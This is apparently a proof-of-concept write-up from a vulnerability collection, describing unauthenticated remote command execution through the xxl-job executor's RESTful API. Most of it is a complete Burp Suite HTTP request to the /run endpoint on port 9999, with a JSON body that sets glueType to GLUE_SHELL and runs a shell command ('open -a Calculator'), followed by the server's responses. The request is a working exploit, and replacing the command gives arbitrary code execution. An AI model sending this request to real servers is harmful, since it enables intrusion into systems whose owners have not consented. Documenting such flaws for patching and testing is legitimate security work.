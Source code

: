 # xxl-job 执行器 RESTful API 未授权访问 RCE


![](04.png)

![](01.png)
![](02.png)
![](03.png)
![](05.png)

## Burpsuite

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Content-Length: 365
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "open -a Calculator",
  "glueUpdatetime": 1586629003727,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12

{"code":200}
```

## 9999 default page
```
http://127.0.0.1:9999/

HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 61
connection: keep-alive

{"code":500,"msg":"invalid request, HttpMethod not support."}
```

## 参考链接

https://landgrey.me/blog/18/
https://www.xuxueli.com/xxl-job/
